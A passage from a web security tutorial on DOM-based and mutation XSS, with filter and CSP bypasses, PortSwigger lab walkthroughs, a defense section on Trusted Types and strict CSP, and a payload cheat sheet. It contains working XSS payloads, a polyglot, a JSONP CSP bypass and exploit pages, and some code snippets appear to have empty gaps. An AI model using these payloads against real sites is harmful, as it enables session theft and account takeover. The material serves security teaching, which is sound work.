`input.replace('javascript:','')` **once**, then `javascjavascript:ript:` has its inner
`javascript:` removed, and the two halves join into `javascript:`.

### 10.4 No parentheses, no spaces, no quotes

WAFs sometimes block `(`, spaces, or quotes. Alternatives:

```html
<!-- No parentheses: use throw/onerror or template literals -->

<svg onload=alert`1`>                            <!-- tagged template, no () -->
<!-- No spaces: use slashes or newlines as separators -->

<svg/onload=alert(1)>
```

`alert` followed by a backtick-quoted argument uses a tagged template literal to call
`alert` with no parentheses. `` uses `/` where the parser accepts whitespace.

### 10.5 The polyglot — one payload for many contexts

A **polyglot** is a single payload built to execute regardless of which context it lands in
(HTML text, attribute, JS string, comment). A well-known one (Gareth Heyes / 0xsobky
lineage) looks like this (study the structure, don't just paste it):

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

It combines a `javascript:` scheme, comment sequences that neutralise surrounding code in a
JS context, closers for `style`/`title`/`textarea`/`script` raw-text contexts, and an
`<svg onload>` for HTML context — so whichever context the injection point turns out to be,
some part of it fires. In practice you rarely need the full polyglot; you use it as a
*detector* to find that *something* executes, then narrow to a clean context-specific
payload for the report.

| Blocked thing | Bypass technique | Example |
|---|---|---|
| `<script>` literal | Other tag+handler | `<svg onload=alert(1)>` |
| `onerror`/`onload` | Other `on*` handler | `<input autofocus onfocus=alert(1)>` |
| Case-sensitive match | Mixed case | `<ScRiPt>` |
| `(` and `)` | Tagged template / entities | backtick call, `&#40;` |
| Spaces | `/` separators / newlines | `` |
| Single-pass `replace()` | Nested keyword | `javascjavascript:ript:` |
| `javascript:` scheme | Entity/whitespace in scheme | `jav&#x0A;ascript:` |

**Ethical framing:** these bypasses are for demonstrating that a control is inadequate on an
authorised target, so the owner replaces the blocklist with real output encoding /
context-aware escaping. A blocklist that needs this many patches is the finding; the fix is
"stop blocklisting, start encoding for context."

## Part 11: Defeating (and Respecting) Content-Security-Policy

Content-Security-Policy (CSP) is a response header that tells the browser which script
sources are allowed to run, and can forbid inline scripts entirely. A strong CSP can turn a
working XSS into a non-executing one — which is exactly why, when you find injection, you
must check the CSP to know whether it's exploitable, and defenders must know which CSPs are
actually strong.

**A weak/bypassable CSP** looks like:

```
Content-Security-Policy: script-src 'self' 'unsafe-inline' https://cdn.example
```

`'unsafe-inline'` means inline `<script>` and event handlers run — CSP provides essentially
no XSS protection here. Even without `unsafe-inline`, an allowlist that includes a domain
hosting a **JSONP endpoint** or a permissive CDN (e.g. one that serves arbitrary
Angular/JSONP) lets an attacker load executable script "from an allowed source":

```html
<!-- If cdn.example is allowlisted and hosts JSONP: -->
<script src="https://cdn.example/api/jsonp?callback=alert(document.domain)//"></script>
```

**A strong CSP** uses a per-response **nonce** or **hash** and no `unsafe-inline`, ideally
with `strict-dynamic`:

```
Content-Security-Policy: script-src 'nonce-r4nd0m' 'strict-dynamic'; object-src 'none'; base-uri 'none'
```

Now an injected `<script>` without the correct, unpredictable nonce simply does not execute,
and `` inline handlers are blocked. To beat this you'd need to steal the nonce
(possible if you can read the DOM before executing — a chicken-and-egg that strict CSP
mostly prevents) or find a `base-uri`/dangling-markup trick, which strong CSPs close with
`base-uri 'none'`.



**Bug bounty reality:** many programs treat XSS behind a strong CSP as reduced severity
because it can't execute, so part of your job is demonstrating actual execution *despite* the
CSP (via an allowlisted gadget) or clearly documenting that a strong CSP mitigates it. Either
way, read the CSP before you claim impact.

## Part 12: Hands-On Lab — DOM XSS, postMessage, and a Sanitiser Bypass

This lab is fully reproducible against **PortSwigger's Web Security Academy** (free, legal,
purpose-built) plus a local file for the parser experiments. Everything is
`alert(document.domain)`-level and non-destructive.

### 12.0 Lab setup from scratch

**PortSwigger Web Security Academy** is a free online training platform with deliberately
vulnerable labs. Create a free account at the Web Security Academy, and pair it with Burp
Suite Community (free): **Proxy → Open browser** gives you a pre-configured Chromium routed
through Burp so DOM Invader works.

For the local parser experiments, just save an HTML file and open it with `file://` in
Chrome — no server needed, since DOM XSS runs entirely in the browser.

### 12.1 Basic DOM XSS via `location.search` → `document.write`

Target lab: "DOM XSS in `document.write` sink using source `location.search`."

The vulnerable page runs, roughly:

```js
function trackSearch(query) {
  document.write('');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if (query) { trackSearch(query); }
```

Source = `location.search`; sink = `document.write`; context = inside an attribute value
(`src="...&searchTerms=HERE">`). Break out of the attribute and the tag, then inject:

```
"><svg onload=alert(document.domain)>
```

So the full request is:

```
GET /?search="><svg onload=alert(document.domain)> HTTP/1.1
```

**Expected result:** the page runs `document.write('<svg
onload=alert(document.domain)>">')`, the `">` closes the `` early, the `<svg onload>`
becomes a live element, and you get:

```
alert box: "your-lab-id.web-security-academy.net"
```

Confirm in DevTools: the injected `<svg>` shows up in the Elements panel as a sibling
element, not as text inside the `src` attribute — proof the context break worked.

### 12.2 DOM XSS via `location.hash` → jQuery selector

Target lab: "DOM XSS in jQuery selector sink using a hashchange event."

The page runs something like:

```js
$(window).on('hashchange', function () {
  var post = $('section.blog-list h2:contains(' + decodeURIComponent(location.hash.slice(1)) + ')');
  // ... scrolls to matching post
});
```

Because the hash is concatenated into a jQuery selector, and older jQuery treats
HTML-looking selector strings as markup to create, you inject markup and trigger a
`hashchange`. The classic solve delivers it from an attacker page that auto-navigates:

```html
<iframe src="https://YOUR-LAB.web-security-academy.net/#" onload="
  this.src += ''"></iframe>
```

Loading this attacker page sets the iframe's hash to the payload, which fires the
`hashchange` handler, which passes the markup to `$()`, which creates the `` and runs
`onerror`. (The lab uses `print()` as the "execution" proof; on your own tests use
`alert(document.domain)`.)

**What to observe:** set a breakpoint on the `$(...)` line in DevTools Sources, reload with a
`#test` hash, and watch the call stack show `hashchange → handler → $()` — that is the
source-to-sink path made visible.

### 12.3 postMessage DOM XSS

Target lab: "DOM XSS using web messages" and "…using web messages and a JavaScript URL /
`eval` sink."

The page has:

```js
window.addEventListener('message', function (e) {
  document.getElementById('ads').innerHTML = e.data;   // no origin check, innerHTML sink
});
```

Exploit page (host it on the exploit server the lab provides):

```html
<iframe src="https://YOUR-LAB.web-security-academy.net/"
        onload="this.contentWindow.postMessage('','*')"></iframe>
```

For the `eval` variant, the handler does `eval(e.data.type)`-style processing; you send a
JSON message whose field lands in `eval`, e.g. `{"type":"print()"}` shaped to match the
handler. Read the handler to see exactly which field reaches which sink — that reading step
*is* the skill.

### 12.4 Local mutation experiment (safe, `file://`)

Save this and open it in Chrome to *see* mutation without any target:

```html
<!doctype html><body>
<div id="out"></div>
<script src="https://cdn.jsdelivr.net/npm/dompurify@2.0.0/dist/purify.min.js"></script>
<script>
  // Deliberately OLD DOMPurify (2.0.0) to demonstrate the version-matters point.
  const payloads = [
    '',                       // trivial: gets cleaned
    '<svg><style><a id="</style>">' // mutation-shaped
  ];
  payloads.forEach(p => {
    const clean = DOMPurify.sanitize(p);
    console.log('IN :', p);
    console.log('OUT:', clean);        // inspect what survived
  });
  console.log('DOMPurify version:', DOMPurify.version);
</script>
</body>
```

Open DevTools console. Observe: the trivial payload is neutralised (`onerror` stripped), and
you can compare the "OUT" serialisation of the mutation-shaped payload across DOMPurify
versions. Bump the CDN version to `@3` (current) and re-run — the point is not to hand you a
live bypass but to *watch a sanitiser's output change with version*, which is exactly the
property you exploit when a target pins an old one. (Do not deploy old DOMPurify; this is a
local teaching harness.)

### 12.5 Lab wrap-up checklist

- [ ] Identified the **source** (search/hash/message) by reading the JS, not guessing.
- [ ] Identified the **sink** (`document.write`/`$()`/`innerHTML`/`eval`).
- [ ] Matched the **context** and broke out correctly.
- [ ] Proved execution with `alert(document.domain)` (or the lab's `print()`).
- [ ] Captured the source→sink call stack in DevTools as evidence.

## Part 13: Real-World Impact and Escalation

An `alert` proves execution; a report needs impact. What running JavaScript in the victim's
origin actually buys an attacker:

- **Session/token theft** — read `document.cookie` (if not `HttpOnly`), or read tokens from
  `localStorage`/JS-reachable memory, and exfiltrate to an attacker endpoint. Modern apps
  increasingly keep session tokens in `HttpOnly` cookies, which blunts cookie theft but not
  the rest.
- **Full account takeover without stealing the token** — since your script runs *as the
  user*, you can drive the app's own API: change the victim's email/password, add an
  attacker OAuth grant, create an API key. This is why "the cookie is HttpOnly" is not a
  complete mitigation.
- **CSRF-token exfiltration** — read anti-CSRF tokens from the DOM and forge state-changing
  requests that would otherwise be blocked.
- **Keylogging / phishing overlay** — inject a fake login form in the real origin.
- **Worming** — Stored/DOM XSS in a social feature can self-propagate (the Samy worm
  archetype).

For a bug bounty proof, stop at the minimum that demonstrates impact: `alert(document.domain)`
plus a description of the reachable escalation, or a single benign exfil of a non-sensitive
value to your own collaborator/interactsh host. Do not harvest real users' sessions.



**CTF angle:** DOM XSS and mXSS show up in web CTFs (e.g. picoCTF web, and many
XSS-as-a-service "report to admin bot" challenges) where a headless bot visits your URL with
a flag in its cookie/DOM — you need real execution to exfiltrate the flag, and the challenge
usually layers a CSP or DOMPurify you must bypass. The methodology here maps directly:
find source→sink, match context, defeat the sanitiser/CSP, exfiltrate to your webhook.

## Part 14: Detection & Defense Angle

This is the consolidated defensive section. DOM XSS is a *client-side* bug, so most
server-side XSS defenses do not apply — this trips up teams that "fixed XSS" by adding output
encoding and are still fully exposed.

### 14.1 The one rule that actually works: don't feed strings to dangerous sinks

The root fix is architectural: never pass untrusted (or any) strings to
`innerHTML`/`document.write`/`eval`. Use safe DOM APIs that cannot execute markup:

```js
// UNSAFE
el.innerHTML = userControlled;
// SAFE — textContent never parses HTML
el.textContent = userControlled;
// SAFE — build nodes explicitly
const img = document.createElement('img');
img.src = validatedUrl;      // and validate the URL scheme
el.append(img);
```

If you must render user HTML (rich text), sanitise with a current, well-configured
**DOMPurify** and insert the result — and only the result — into an HTML context.

### 14.2 Trusted Types — make unsafe sinks refuse raw strings

**Trusted Types** is a browser platform feature (enabled via CSP) that makes DOM XSS sinks
*throw* when handed a plain string, forcing all sink writes to go through a vetted policy
that returns a typed, sanitised value. It converts "we hope every sink call is safe" into
"the browser enforces that every sink call went through our sanitiser."

```
Content-Security-Policy: require-trusted-types-for 'script'; trusted-types dompurify default
```

```js
// Define exactly one policy that all sink writes must use:
const policy = trustedTypes.createPolicy('dompurify', {
  createHTML: (s) => DOMPurify.sanitize(s)
});
el.innerHTML = policy.createHTML(userInput);   // any raw-string innerHTML now throws
```

With Trusted Types on, a developer who forgets to sanitise gets a *runtime exception*, not an
XSS. This is the strongest practical defense and the direction Google-scale apps have moved.

### 14.3 Strict CSP as defense-in-depth

Even if a sink slips through, a **nonce-based strict CSP** (`'strict-dynamic'`, no
`unsafe-inline`, `base-uri 'none'`, `object-src 'none'`) stops injected inline script and
event handlers from executing. Treat CSP as a second wall, not the primary fix — DOM sinks
like `eval` and same-origin gadgets can still bite without Trusted Types.

### 14.4 Detection — how blue teams find DOM XSS they can't see in logs

Because the exploit may never reach the server, log-based detection is weak. Practical
approaches:

| Technique | What it catches |
|---|---|
| CSP **report-only** with `report-uri`/`report-to` | Reports blocked inline script / eval attempts from the victim's browser — a live signal that something tried to execute |
| Trusted Types **report-only** | Reports every raw-string sink write in production, surfacing risky sinks before they're exploited |
| SAST/DAST for sources→sinks | Static taint tools (CodeQL JS queries, ESLint `no-unsanitized`) and DAST (DOM Invader, Burp Scanner) flag the code paths |
| Subresource / dependency scanning | Flags outdated jQuery/DOMPurify versions with known bypasses |
| Client-side error monitoring | Trusted-Types violations and CSP violations show up as telemetry |

**IR use case:** if you get a CSP or Trusted-Types violation report from real users pointing
at an unexpected inline-script or `eval`, treat it as a potential live DOM XSS being probed,
and pull the referring URL/`document.URL` from the report to reconstruct the source.

### 14.5 Framework hygiene

- React/Vue/Angular auto-escape by default; the danger is the explicit escape hatch —
  `dangerouslySetInnerHTML` (React), `v-html` (Vue), `[innerHTML]`/`bypassSecurityTrust*`
  (Angular). Grep for those; each is a candidate sink.
- Keep jQuery ≥ 3.5 or remove it; audit every `$(variable)`, `.html()`, and `.append()`.
- Pin **and update** DOMPurify; subscribe to its releases.

## Part 15: Common Pitfalls and Gotchas

- **Trying `<script>` in an `innerHTML` sink and concluding "not vulnerable."** `innerHTML`
  never runs inserted `<script>`. Use ``/`<svg onload>`.
- **Grepping the response body for your payload.** DOM XSS isn't there. Read the JS; use DOM
  Invader.
- **Forgetting the fragment isn't sent to the server.** A `#hash` payload leaves no server
  log and bypasses server-side WAFs entirely — great for you as a tester, and a reason
  defenders miss it.
- **Assuming a sanitiser means safe.** Version and config decide it; mXSS lives between the
  validate-parse and the insert-parse.
- **Claiming impact behind a strong CSP without demonstrating execution.** Read the CSP;
  either show a gadget bypass or scope severity honestly.
- **`alert(1)` instead of `alert(document.domain)`.** With iframes/sandboxes you need to
  know *which origin* executed; `document.domain` tells you.
- **Encoding confusion.** Data can be URL-decoded (by `decodeURIComponent`), then
  HTML-entity-decoded (by the parser), then JS-string-decoded (in an eval context) — layer
  your payload for the decodes it will actually pass through, no more.
- **Testing destructively.** No mass exfil, no real victim cookies. Minimal, non-destructive
  proof only.

## Part 16: Final Revision / Summary

- **DOM-based XSS** happens entirely in the browser: client JS reads a **source**
  (`location.hash`/`search`/`href`, `postMessage`, `window.name`, storage) and writes it to a
  dangerous **sink** (`innerHTML`, `document.write`, `eval`, jQuery `$()`/`.html()`,
  `location=`). The server response is clean, so server-side output encoding does nothing and
  response-grepping scanners miss it.
- **Find it** by mapping sources and sinks in the loaded JS, tracing source→variable→sink,
  proving with a canary, then a context-matched payload → `alert(document.domain)`. Burp
  **DOM Invader** automates the source/sink/postMessage tracing.
- **Context still rules:** HTML sinks want ``/`<svg onload>` (never `<script>`);
  JS sinks want raw code / quote-breakouts; URL sinks want `javascript:`; template regions
  want expression injection.
- **postMessage** DOM XSS needs a missing/weak `e.origin` check plus a sink on `e.data`;
  exploit from an attacker page that frames/opens the target and posts the payload.
- **Mutation XSS (mXSS)** is created by the browser re-parsing/re-serialising markup: a
  sanitiser validates inert-looking input, the browser mutates it into live script on
  insertion. It's why sanitiser *version and config* matter and "sanitised" ≠ "safe."
- **Bypasses** exploit that a blocklist can only enumerate known forms: case/encoding,
  alternate tags/handlers, keyword-splitting, no-paren/no-space tricks, single-pass
  `replace()` bugs, and polyglots. **CSP** can neutralise execution — read it before
  claiming impact; strong nonce+`strict-dynamic`+`base-uri 'none'` is hard to beat.
- **Defense:** avoid string→sink entirely (`textContent`, explicit node building);
  render user HTML only via current DOMPurify; enforce **Trusted Types** so unsafe sinks
  throw; layer strict CSP; keep jQuery/DOMPurify updated; detect via CSP/Trusted-Types
  report-only telemetry and SAST taint queries.

## Part 17: Cheat Sheet / Quick Reference

**Sources (attacker-controlled):**

```
location.href / .search / .hash / .pathname
document.URL / document.documentURI / document.referrer
window.name
message event .data  (postMessage)
localStorage / sessionStorage
document.cookie (if attacker can set cookies)
history.state
```

**Dangerous sinks:**

```
innerHTML  outerHTML  insertAdjacentHTML  document.write(ln)
eval  Function(...)()  setTimeout(str)  setInterval(str)
element.src (script/iframe)  a.href / location / location.href / .assign
jQuery: $(x)  .html(x)  .append/.prepend/.before/.after/.wrap/.replaceWith
range.createContextualFragment
```

**Context → payload:**

```
HTML sink      : 
                 <svg onload=alert(document.domain)>
                 <details open ontoggle=alert(document.domain)>
JS/eval sink   : ;alert(document.domain)//     or   '-alert(document.domain)-'
URL sink       : javascript:alert(document.domain)
Template (NG)  : {{constructor.constructor('alert(1)')()}}
```

**Filter-bypass quick hits:**

```
Case           : <ScRiPt> / OnErRoR
No parens      : alert with backtick arg  |  window.onerror=eval;throw'=alert\x281\x29'
No spaces      : <svg/onload=alert(1)>   
Entities       : onerror=alert&#40;1&#41;   href=jav&#x0A;ascript:alert(1)
Single-pass strip: javascjavascript:ript:alert(1)
Alt handlers   : onfocus (autofocus), ontoggle (details open), onstart (marquee)
```

**DevTools moves:**

```
Ctrl+Shift+F           search all loaded scripts for sources/sinks
Conditional breakpoint on the innerHTML/eval line
DOM breakpoint: "Break on subtree modifications" on the changing element
$.fn.jquery            check jQuery version
DOMPurify.version      check sanitiser version
```

**Defense checklist:**

```
textContent over innerHTML; build nodes explicitly
DOMPurify (current + default allowlist) for rich HTML only
require-trusted-types-for 'script'  (sinks throw on raw strings)
Strict CSP: nonce + 'strict-dynamic' + base-uri 'none' + object-src 'none'
jQuery >= 3.5 or removed; audit dangerouslySetInnerHTML / v-html / [innerHTML]
CSP + Trusted Types report-only for detection telemetry
```

## Part 18: Practice Labs & Resources

Train these exact skills on purpose-built, legal targets:

- **PortSwigger Web Security Academy — DOM-based XSS** (free): the full set, including
  "DOM XSS in `document.write` sink using `location.search`", "…in `innerHTML` sink using
  `location.search`", "…in jQuery selector sink using a hashchange event", "…in
  `document.write` sink using `location.search` inside a select element", and the
  **Web messages / postMessage** labs ("DOM XSS using web messages", "…using web messages
  and a JavaScript URL", "…using web messages and `eval`").
- **PortSwigger — DOM XSS combined with reflected/stored & AngularJS** labs for
  client-side template injection and framework sinks.
- **PortSwigger — Content Security Policy** and **client-side prototype pollution → DOM XSS**
  labs, to practise CSP-aware exploitation and modern gadget chains.
- **DOMPurify bypass write-ups** (Cure53 / researcher advisories): read the historical mXSS
  bypasses to internalise the parse/serialise-mismatch principle — study the mechanism, and
  always test against a current version.
- **XSS Game / prompt.ml-style challenges** and **HackTheBox / TryHackMe** rooms tagged XSS
  with a "report to admin bot" mechanic, which force real execution + exfiltration under a
  CSP/sanitiser.
- **Google XSS Game** and **pwn.college / web tracks** for progressive filter-bypass
  practice.
- **PayloadsAllTheThings — XSS Injection** and the **HTML5 Security Cheatsheet / PortSwigger
  XSS cheat sheet** as payload references (use as a menu of vectors, not a spray list).

The next chapter turns confirmed XSS into full weaponisation — session theft and the BeEF
framework — building directly on the execution primitive you can now find in DOM, mutation,
and filtered contexts.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/appsec-client-side/02-cross-site-scripting-xss-part-2-dom-based-mutation-and-filter-bypass), with comments and the latest edits.*
